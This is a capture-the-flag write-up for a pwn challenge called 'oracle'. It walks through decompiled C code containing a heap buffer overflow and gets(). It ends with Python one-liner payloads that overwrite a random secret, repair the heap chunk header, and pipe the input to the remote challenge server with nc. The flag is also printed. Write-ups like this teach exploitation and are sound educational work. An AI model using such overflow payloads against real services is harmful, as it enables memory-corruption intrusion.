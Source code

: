 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

Everything is very similar to delphi, see [writeup](../delphi/WRITEUP.md).

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([oracle.c](workdir/oracle.c)) relatively well. 

```c
void FUN_00401334(void *param_1)

{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_0040146b(void)

{
  // REDACTED;
  __s = (char *)malloc(0x10);
  __s2 = (char *)malloc(0x20);
  memset(__s2,0,0x20);
  getrandom(__s2,0x20,0);
  for (local_5c = 0; local_5c < 0x20; local_5c = local_5c + 1) {
    if ((__s2[local_5c] == '\0') || (__s2[local_5c] == '\n')) {
      __s2[local_5c] = '*';
    }
  }
  do {
    if (local_60 == 1) {
      puts("You are a true mind reader.");
      FUN_004013b2(); //printing flag out
LAB_0040165d:
      // REDACTED
      return 0;
    }
    puts("Welcome to the Oracle of Delphi!");
    puts("Hic es forsit ut tuum futurum invenias.\n");
    puts(
        "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
        );
    puts("If not, shall the gods have mercy on your soul.\n");
    printf("What shall I think of (ie What\'s my favorite instrument)? ");
    FUN_00401334(__s);
    printf("So you asked: ");
    puts(__s);
    puts("Okay, now that\'s a good one. Let me think...");
    sleep(2);
    printf("Got it. Any clue what it is I had in mind? ");
    fgets(local_48,0x21,stdin);
    iVar1 = strncmp(local_48,__s2,0x20);
    if (iVar1 != 0) {
      puts("Nope, that\'s not it. You\'re doomed.");
      goto LAB_0040165d;
    }
    puts("Just double checking... What did you say? ");
    gets(__s);
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    free(__s2);
    free(__s);
    local_60 = 1;
  } while( true );
}

```

FUN_00401334 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter destination. 

FUN_0040146b is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00401334 read function to hold our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, we receive an another chance to read into the input buffer, this time with gets, and the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to check various protections or generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

# Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. The program is using free before printing out the flag, so corrupting the heap structure is a problem this time. 


![](screenshots/6.png)


There is a second read to the input buffer after the check with gets, and can restore the corrupted heap structure. Writing back the fixed structure fixing the problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | ./oracle
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | nc 10.10.8.XX XXXX
```

![](screenshots/8.png)

# Flag

`cq23{sUch_@_typ1c4l_r341_w0rld_siTUaT10n_righT?}`